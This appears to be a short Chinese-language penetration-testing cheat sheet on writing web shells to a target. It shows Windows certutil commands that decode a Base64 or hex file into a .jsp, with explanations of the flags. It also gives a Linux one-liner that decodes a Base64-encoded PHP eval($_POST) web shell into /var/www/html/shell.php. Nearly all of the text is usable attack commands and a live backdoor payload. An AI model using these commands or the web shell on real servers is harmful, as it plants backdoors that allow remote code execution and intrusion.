 如下还原：

```
certutil -f -decode 111.txt C:\\111.jsp
certutil -decodehex 111.txt C:\\111.jsp
```

![截图](5a84853856a488f374ef83b879093e8f.png)

> `certutil -f -decode 111.txt C:\\111.jsp`：这个命令会对名为 "111.txt" 的文件进行解码，并将解码后的内容保存到名为 "C:\111.jsp" 的文件中。-f 标志表示强制覆盖目标文件（如果存在的话）。这个命令的作用是将 "111.txt" 文件的内容进行解码，并将结果保存到 "C:\111.jsp" 文件中。
> 
> `certutil -decodehex 111.txt C:\\111.jsp`：这个命令也是对名为 "111.txt" 的文件进行解码操作，不过它使用了 -decodehex 参数，这表示要求解码器将输入文件视为十六进制格式进行解码。然后，解码后的内容会被保存到 "C:\111.jsp" 文件中。
> 
> 这两个命令的区别在于解码器对待输入文件的方式：第一个命令默认将输入文件视为 **Base64** 编码的文本文件进行解码，而第二个命令将输入文件视为**十六进制**格式的数据进行解码。

## linux下base64

```
echo PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4=|base64 -d > /var/www/html/shell.php
```

![截图](6567639c3f17e2ecb37d343e59ed3b47.png)
